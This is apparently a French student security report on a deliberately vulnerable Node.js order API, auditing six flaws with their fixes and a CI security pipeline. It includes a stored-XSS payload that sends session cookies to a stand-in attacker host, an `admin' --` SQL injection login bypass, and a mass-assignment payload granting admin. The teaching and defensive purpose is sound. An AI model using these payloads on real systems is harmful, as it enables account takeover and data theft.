Important : ouvrez le fichier dans Visual Studio Code et appuyez sur Ctrl + Shift + V pour obtenir un aperçu clair du rapport.

# 1. Présentation du projet

Le sujet du projet est la gestion des commandes.

Les technologies utilisées sont Node.js et SQLite.

Les tests sont réalisés avec Postman.

## Les rôles

* utilisateur
* admin

## Les routes

### Routes d'authentification

* **POST** `/api/auth/register` : pour créer un utilisateur.
* **POST** `/api/auth/login` : pour se connecter.

### Routes du système de commandes

* **POST** `/api/orders` : cette route permet de créer une commande.

* **GET** `/api/orders` : cette route permet à l'utilisateur de récupérer uniquement ses commandes et à l'administrateur de récupérer toutes les commandes de la base de données.

* **GET** `/api/orders/:id` : cette route permet à l'utilisateur de récupérer une commande qui lui appartient. Si la commande ne lui appartient pas, une réponse 403 s'affiche. Elle permet également à l'administrateur de récupérer n'importe quelle commande par son identifiant.

* **PUT** `/api/orders/:id` : cette route permet à l'utilisateur de modifier une commande qui lui appartient. Si la commande ne lui appartient pas, une réponse 403 s'affiche. Elle permet également à l'administrateur de modifier n'importe quelle commande ainsi que son statut par identifiant.

* **DELETE** `/api/orders/:id` : cette route permet à l'utilisateur de supprimer une commande qui lui appartient. Si la commande ne lui appartient pas, une réponse 403 s'affiche. Elle permet également à l'administrateur de supprimer n'importe quelle commande par identifiant.

J'ai également inséré des données de test :



# 2. Architecture de l'application

L'architecture du projet est MVC, sans partie graphique. Celle-ci est remplacée par les réponses JSON envoyées au client.

Voici les principaux dossiers : `models`, `controllers`, `routes`, `middlewares`, `config`, ainsi que le point d'entrée `index.js`.

Vous trouverez l'image de l'architecture ci-dessous :



# 3. Installation et lancement

Les instructions de lancement sont simples :

* lancer la commande `npm install` pour installer les dépendances ;
* ajouter `JWT_SECRET` dans le fichier de configuration `.env` ;
* lancer le serveur avec la commande `node index.js`.

# 4. Organisation Git

Nous avons deux branches principales :

* `main` pour la version sécurisée ;
* `vulnerable-version` pour la version vulnérable.

Le fichier `.gitignore` permet de déclarer les fichiers et dossiers à ignorer par Git.

Nous avons également `.github/workflows/security`, un pipeline de sécurité exécuté lors des opérations de push ou de pull request.

# 5. Liste des vulnérabilités intégrées

* Faille CORS (Cross-Origin Resource Sharing)
* Manque de Rate Limiting (absence de limitation de requêtes)
* IDOR / BOLA (Broken Access Control)
* Injection SQL
* XSS
* Authentification faible
* Mass Assignment
* Security Misconfiguration

# 6. Audit détaillé des vulnérabilités

## VULN-01 - IDOR / BOLA (Broken Access Control) sur la gestion des commandes

**Type :** IDOR / BOLA (Broken Access Control)

### Endpoints concernés

* `GET /api/orders/:id`
* `PUT /api/orders/:id`
* `DELETE /api/orders/:id`

### Description

N'importe quel utilisateur peut consulter, modifier ou supprimer une commande à partir de son identifiant. Aucune vérification de propriété n'est effectuée.

### Cause technique

La version vulnérable ne vérifie pas si la commande appartient à l'utilisateur ou si l'utilisateur est administrateur, ce qui permet d'accéder à n'importe quelle commande.

Exemple de route de suppression :



### Exploitation

L'utilisateur Alice peut modifier ou supprimer la commande de Bob.

### Preuve

Cette capture montre la réponse du serveur lorsque j'ai récupéré la commande de Bob avec le compte d'Alice.



### Impact

* Perte de confidentialité des données
* Atteinte à l'intégrité des statuts
* Perte de disponibilité des commandes
* Élévation de privilèges (BOLA)
* Non-conformité flagrante au RGPD

### Criticité

Élevée

### Correction appliquée

Cette capture montre la correction appliquée dans la version sécurisée : on vérifie si la commande appartient à l'utilisateur connecté ou si le rôle de l'utilisateur est administrateur. Sinon, une réponse 403 est renvoyée.



### Validation après correction

Après la correction, la même requête retourne la réponse suivante :



---

## VULN-02 - Injection SQL dans l'authentification

**Type :** Injection SQL

### Endpoint concerné

* `POST /api/auth/login`

### Description

L'endpoint permet à un utilisateur d'injecter du code SQL malveillant afin de contourner l'authentification ou de voler des données.

### Cause technique

Les attributs `username` et `password` sont intégrés directement dans la requête SQL sans être nettoyés ni préparés, et sans utilisation d'un ORM.



### Exploitation

Un utilisateur peut ajouter `--` à la fin du champ `username` afin de commenter le reste de la requête SQL et contourner la validation du mot de passe. Il peut ainsi se connecter uniquement avec le nom d'utilisateur.

### Preuve


### Impact

* Compromission totale de la confidentialité
* Contournement complet des mécanismes d'authentification
* Atteinte critique à l'intégrité
* Élévation verticale de privilèges (administrateur)
* Risque d'exfiltration de données (RGPD)

### Criticité

Élevée

### Correction appliquée

Dans la version sécurisée, l'application utilise l'ORM Sequelize, qui s'appuie sur des requêtes préparées.

Si un attaquant tente de saisir `admin' --`, Sequelize recherchera un utilisateur dont le nom est littéralement la chaîne de caractères `admin' --`. L'injection est ainsi neutralisée.



### Validation après correction

La même requête utilisée après correction ne permet plus l'injection de requêtes malveillantes.


---

## VULN-03 - Faille XSS

**Type :** XSS

### Endpoint concerné

* `POST /api/orders`

### Description

L'application permet à un attaquant d'injecter des scripts malveillants (JavaScript) dans les champs de saisie. Ce script est enregistré en base de données et s'exécute dans le navigateur de chaque utilisateur qui consulte la page.

### Cause technique

L'application accepte les entrées utilisateur brutes sans filtrage (sanitization).

### Exploitation

Un attaquant crée une commande en injectant le code suivant dans le champ `productName` :

```html
<script>fetch('http://attaquant.com/steal?cookie=' + document.cookie)</script>
```

Chaque utilisateur ou administrateur qui ouvrira la fiche de ce produit se fera voler son cookie de session.

### Preuve

Cette capture montre que l'application accepte l'injection de scripts malveillants.



### Impact

* Vol de cookies de session
* Usurpation d'identité des utilisateurs
* Détournement de comptes (compromission)
* Exécution de scripts malveillants (XSS)
* Risque de fuite de données

### Criticité

Élevée

### Correction appliquée

Dans la version sécurisée, un middleware est utilisé pour nettoyer et sécuriser les données envoyées par l'utilisateur dans le corps de la requête (`req.body`) afin de protéger l'application contre les attaques XSS (Cross-Site Scripting).





### Validation après correction

Après correction, le script malveillant contenu dans l'attribut `productName` est supprimé automatiquement par le middleware.



---

## VULN-04 - Authentification faible

**Type :** Authentification faible

### Endpoints concernés

* `POST /api/auth/register`
* `POST /api/auth/login`

### Description

Le mécanisme d'authentification de l'application accumule plusieurs failles critiques : les mots de passe sont stockés sans hachage en base de données, ils sont renvoyés en clair dans les réponses HTTP du serveur, la clé JWT est trop faible avec une expiration excessive, et les messages d'erreur permettent de deviner si un compte existe.

### Cause technique

Le message d'erreur est précis et indique à l'utilisateur si le compte existe ou non. La clé JWT est faible, l'expiration est longue, le mot de passe est affiché dans la réponse et les mots de passe stockés en base de données ne sont pas hachés.





### Exploitation

**Énumération :** un attaquant teste des listes d'emails ou de noms d'utilisateur. Le serveur lui indique précisément quels comptes existent.

**Vol de base de données :** si un attaquant accède à la base de données (via la faille SQL Injection de la VULN-02), il peut lire instantanément tous les mots de passe en clair.

**Vol de session :** le token JWT ayant une durée de validité excessive, un attaquant qui le vole conserve l'accès pendant une longue période.

### Preuve

Cette capture montre la réponse du serveur contenant le mot de passe en clair lors d'une attaque par injection SQL.



### Impact

* Compromission massive des identifiants (mots de passe)
* Énumération réussie des comptes utilisateurs
* Persistance des sessions compromises (JWT)
* Facilitation des attaques par force brute
* Non-conformité avec les normes de sécurité (RGPD / OWASP Top 10)

### Criticité

Élevée

### Correction appliquée

* Hachage avec Bcrypt : utilisation de la bibliothèque bcrypt pour hacher les mots de passe avant stockage.
* Nettoyage de la réponse : exclusion du champ `password` du JSON envoyé.
* Message d'erreur générique : remplacement des erreurs détaillées par le message unique : *"Identifiant ou mot de passe incorrect"*.
* Renforcement du JWT : utilisation d'une clé forte via `.env` et réduction de la durée de validité à 1 heure (`expiresIn: '1h'`).





### Validation après correction

En base de données, les mots de passe apparaissent désormais sous forme de chaînes hachées (`$2b$10$...`). En cas d'échec d'authentification, le message ne fournit aucun indice à un attaquant.



---

## VULN-05 - Mass Assignment sur l'attribut role

**Type :** Mass Assignment

### Endpoint concerné

* `POST /api/auth/register`

### Description

Dans la version vulnérable, l'application permet à un utilisateur de définir lui-même ses privilèges lors de son inscription en ajoutant manuellement le paramètre `"role": "admin"` dans le corps de la requête.

### Cause technique

Dans la version vulnérable, le backend transmet directement l'intégralité de l'objet `req.body` à la fonction de création Sequelize. Comme le modèle `User` possède un attribut `role`, Sequelize enregistre automatiquement cette valeur en base sans filtrage des champs sensibles.



### Exploitation

Un attaquant crée ou intercepte une requête POST vers `/api/auth/register` avec le payload suivant :

```json
{
  "username": "hacker",
  "password": "password123",
  "role": "admin"
}
```

Le serveur crée alors le compte avec le rôle administrateur au lieu du rôle utilisateur par défaut.

### Preuve



### Impact

* Élévation verticale de privilèges non autorisée
* Compromission du contrôle d'accès
* Accès administrateur illégitime au système
* Risque de manipulation globale des comptes

### Criticité

Élevée

### Correction appliquée

Dans la version sécurisée, nous avons mis en place une liste blanche (Whitelisting) des paramètres autorisés. Au lieu de passer tout le bloc `req.body`, nous sélectionnons uniquement les champs que l'utilisateur a le droit de définir :



### Validation après correction

Si un attaquant tente à nouveau d'envoyer `"role": "admin"`, le serveur ignore ce paramètre. Le compte est créé avec le rôle par défaut `"user"`.



---

## VULN-06 - Security Misconfiguration (Information Disclosure)

**Type :** Security Misconfiguration 

### Endpoint concerné

* `GET /api/orders/:id`

### Description

En cas d'erreur, le serveur renvoie des détails techniques sensibles au client, révélant l'arborescence des fichiers et la structure du code.

### Cause technique

Le bloc `catch(err)` renvoie directement les propriétés système `err.message` et `err.stack` dans la réponse JSON. De plus, le code provoque volontairement une erreur (`throw new ReferenceError`) si l'identifiant n'est pas un nombre.



### Exploitation

L'attaquant envoie un identifiant malformé (exemple : `/api/orders/abc`). Le serveur retourne alors un JSON contenant des chemins absolus du système de fichiers (`C:\Users\Asus\Desktop\...`).

### Preuve



### Impact

* Divulgation d'informations système sensibles (stack trace)
* Exposition de l'arborescence des fichiers (chemins absolus)
* Facilitation de la phase de reconnaissance (Recon)
* Divulgation de la structure du code (noms de variables)

### Criticité

Moyenne

### Correction appliquée

Le code a été nettoyé afin de supprimer le crash provoqué et de masquer les détails techniques. Seul un message d'erreur générique est désormais renvoyé.



### Validation après correction

Avec la même requête, l'attaquant reçoit uniquement le message générique **"Commande introuvable."** sans aucune information sur l'infrastructure.




# 7. Pipeline sécurité

J'ai intégré un pipeline CI/CD de sécurité via GitHub Actions qui s'exécute automatiquement sur la branche `main`.

Il valide d'abord l'application avec des tests unitaires avant d'analyser le code source avec Semgrep (SAST) et de bloquer les dépendances critiques avec `npm audit` (SCA).

De plus, Gitleaks vérifie qu'aucun mot de passe ou clé API n'est exposé dans l'historique du projet.

Enfin, l'application démarre en arrière-plan pour subir une simulation d'attaques en conditions réelles avec OWASP ZAP (DAST).

# 8. Résultats des scans

Vous trouverez tous les résultats des scans de pepiline de sécurité dans le dossier :

`captures/scan-results`

# 9. Limites du projet

Ce projet s'est concentré exclusivement sur le développement de l'API Back-end, sans interface graphique Front-end.

Tous les tests et simulations de requêtes clients ont été réalisés uniquement avec Postman.

De plus, l'utilisation de la base de données SQLite reste limitée à un environnement de développement local.

Enfin, le scan DAST du pipeline s'exécute dans un conteneur éphémère, ce qui ne permet pas d'évaluer le comportement de l'application face à des attaques réseau réelles en production.

# 10. Conclusion

Ce projet a permis de sécuriser une API de gestion des commandes en appliquant les principes du DevSecOps.

Le passage d'une version vulnérable à une version sécurisée démontre qu'un ORM correctement configuré et des middlewares adaptés permettent de neutraliser efficacement les failles critiques.

Enfin, l'intégration du pipeline GitHub Actions automatise ce contrôle afin de bloquer toute nouvelle vulnérabilité avant sa mise en production.
